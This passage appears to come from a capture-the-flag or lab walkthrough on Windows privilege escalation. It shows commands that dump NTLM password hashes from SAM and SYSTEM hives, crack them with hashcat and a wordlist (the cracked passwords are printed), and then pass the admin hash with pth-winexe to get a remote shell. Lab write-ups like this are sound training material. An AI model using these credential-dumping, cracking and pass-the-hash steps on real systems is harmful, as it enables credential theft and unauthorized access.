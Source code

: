 ```console
$ git clone https://github.com/Tib3rius/creddump7
$ pip3 install pycryptodome
$ python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

# Just redirect the output and put it into a file:
$ python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

Now that we have the hashes, we can use hashcat to crack these...

```console
$ hashcat -m 1000 --force hashes.txt /usr/share/seclists/Passwords/rockyou.txt 
hashcat (v6.2.5) starting

...
...

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

31d6cfe0d16ae931b73c59d7e0c089c0:                         
a9fdfa038c4b75ebc76dc855dd74f0da:password123              
91ef1073f6ae95f5ea6ace91c09a963a:password321              
fc525c9683e8fe067095ba2ddc971889:Passw0rd!                

...
...
```

We can find the password to `admin` by looking the result for the hash corresponding to `admin` i.e. `a9fdfa038c4b75ebc76dc855dd74f0da`.

> What is the NTLM hash of the admin user?\
> > `a9fdfa038c4b75ebc76dc855dd74f0da`

### Passwords - Passing the Hash

Yet another cool tool: `pth-winexe` can be used for straight-up using the NTLM hash for a user and, in this case, obtaining a shell:

```console
$ pth-winexe -U 'admin%a9fdfa038c4b75ebc76dc855dd74f0da' //MACHINE_IP cmd.exe
```

### Scheduled Tasks
